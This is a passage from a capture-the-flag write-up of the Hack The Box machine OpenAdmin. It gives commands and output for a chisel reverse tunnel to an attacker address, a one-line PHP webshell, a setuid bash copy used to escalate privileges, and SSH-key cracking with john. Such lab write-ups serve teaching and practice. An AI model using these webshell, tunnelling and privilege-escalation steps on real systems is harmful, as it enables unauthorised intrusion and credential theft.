 		jimmy@openadmin:/tmp$ ./chisel client 10.10.14.14:1337 R:52846:127.0.0.1:52846 &
		```

## Joanna - Insert Webshell & Create joannabash
1. Insert webshell 
	```
	jimmy@openadmin:/var/www/internal$ echo "<?php system(\$_GET['c'])?>" | tee webshell.php
	<?php system($_GET['c'])?>
	```
2. Test if our webshell works
	```
	┌──(root💀kali)-[~/htb/OpenAdmin/10.10.10.171/loot]
	└─# curl localhost:52846/webshell.php?c=id
	uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)
	```
	![]({{ page.img_path }}Pasted%20image%2020220926015451.png)
3. Create a `joannabash`, bash w/ `joanna` setuid
	```
	┌──(root💀kali)-[~/htb/OpenAdmin/10.10.10.171/loot]
	└─# curl "localhost:52846/webshell.php?c=cp+/bin/bash+./joannabash;chmod+4755+./joannabash;+ls+-la"
	total 2208
	drwxrwx--- 2 jimmy  internal    4096 Sep 25 17:57 .
	drwxr-xr-x 4 root   root        4096 Nov 22  2019 ..
	-rwxr-xr-x 1 joanna joanna   1113504 Sep 25 17:56 bash
	-rwxrwxr-x 1 jimmy  internal    3229 Nov 22  2019 index.php
	-rwsr-xr-x 1 joanna joanna   1113504 Sep 25 17:57 joannabash
	-rwxrwxr-x 1 jimmy  internal     185 Nov 23  2019 logout.php
	-rwxrwxr-x 1 jimmy  internal     339 Nov 23  2019 main.php
	-rw-r--r-- 1 joanna joanna         5 Sep 25 17:56 test
	-rw-r--r-- 1 joanna joanna         5 Sep 25 17:56 testing
	-rw-rw-r-- 1 jimmy  jimmy         27 Sep 25 17:52 webshell.php
	```
4. Execute `joannabash` to privilege escalate
	```
	jimmy@openadmin:/var/www/internal$ ./joannabash -p
	joannabash-4.4$ id;whoami
	uid=1000(jimmy) gid=1000(jimmy) euid=1001(joanna) groups=1000(jimmy),1002(internal)
	joanna
	```
5. Demo - Insert webshell & create `jonnabash` 
	![](suBh3On9h2.gif)
6. Found `joanna` encrytped SSH private key.
	```
	joannabash-4.4$ ls -la /home/joanna | grep .ssh
	drwx------ 2 joanna joanna 4096 Nov 23  2019 .ssh
	```

## Joanna - Crack SSH Private Key
1. Transfer `id_rsa` to `kali`
2. Convert it to john format
	```
	┌──(root💀kali)-[~/htb/OpenAdmin/10.10.10.171/loot]
	└─# python ssh2john.py id_rsa > john_id_rsa
	```
3. Crack w/ `john`
	```
	┌──(root💀kali)-[~/htb/OpenAdmin/10.10.10.171/loot]
	└─# john john_id_rsa --wordlist=/usr/share/wordlists/rockyou.txt
	Using default input encoding: UTF-8
	Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
	Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes